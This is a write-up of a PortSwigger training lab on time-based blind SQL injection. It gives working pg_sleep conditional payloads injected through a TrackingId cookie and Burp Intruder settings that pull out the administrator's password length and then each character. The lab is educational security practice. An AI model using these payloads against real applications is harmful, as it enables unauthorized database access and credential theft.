

# Write-up: Blind SQL injection with time delays and information retrieval
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>
Difficulty: PRACTITIONER  
 

## Lab description

## Steps

### Enumeration

In tracking cookie, we see that the cookie contains a `TrackingId` parameter, which is vulnerable to blind sql injection according to problem statement.

Using conditional sql query, we can delay response is a condition is true. We can use `pg_sleep` function to delay the response. We will also use `%3B` to encode `;` to separate the queries.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives a delay of 10 seconds.
and `kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives no delay in response.

Now we will check the length of password of user `administrator` using the following query.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username='administrator')=1 THEN pg_sleep(10) ELSE pg_sleep(0) END--`, this gives no delay in response showing that the length of password is not 1.

### Exploitation

We can automate this process using Burpsuite Intruder.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT LENGTH(password) FROM users WHERE username='administrator')=§1§ THEN pg_sleep(10) ELSE pg_sleep(0) END--`, where `§1§` is the payload position.
Attack Type is `Sniper`, Payload set is `Numbers`, Start 1, Step 1, End 30.

After attack completion, We can see response time by adding `Response Completed` column, that it is increased when the length of password is 20.

Now, we can use similar method to find the password. We can use the following query to check if the first character of password is `a-z` or `0-9` for each position of password.
`kxbQZEm5EqihAl7E' %3B SELECT CASE WHEN (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§' THEN pg_sleep(10) ELSE pg_sleep(0) END--`, where `§1§` and `§a§` are the payload position.
Attack type is `Cluster bomb`, 
Payload set 1 is `Numbers`, Start 1, Step 1, End 20.
Payload set 2 is `Simple list`, Values `abcdefghijklmnopqrstuvwxyz0123456789`.

After attack completion, we can filter the maximum response times for each position to get the password.

The password is `7r6dyo64472rpxi0g818`.

Hence, the lab is sovled.

